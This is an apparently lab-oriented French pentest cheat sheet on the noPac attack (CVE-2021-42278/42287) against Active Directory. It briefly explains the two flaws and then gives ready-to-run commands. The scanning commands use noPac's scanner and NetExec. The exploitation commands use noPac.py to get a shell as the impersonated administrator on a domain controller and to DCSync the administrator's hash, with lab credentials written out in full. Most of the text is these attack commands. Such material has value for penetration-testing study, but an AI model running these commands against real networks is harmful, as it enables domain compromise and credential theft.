 
CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) et [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)

https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware

| 42278                                                                      | 42287                                                                                         |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

> [!TIP]
> Ajouter une machine ayant le même SAN que celui du DC au domaine afin de request un TGT au nom du DC usurpé.



# NoPAC / Impacket (Noisy)

https://github.com/Ridter/noPac

1. Identifier si la vulnérabilité est présente (Ticket size différent)

```shell
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

ou avec #Netexec

```bash
nxc smb 172.16.5.5 -u 'syncron' -p 'Mycleart3xtP@ss!' -M nopac
```

2. Exploitation et obtention d'un shell en requêtant un TGT pour le compte administrator

```shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

DCSync ciblé sur le compte administrateur

```shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

# Netexec

1. Identifier si la vulnérabilité est présente (Ticket size différent)

```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```
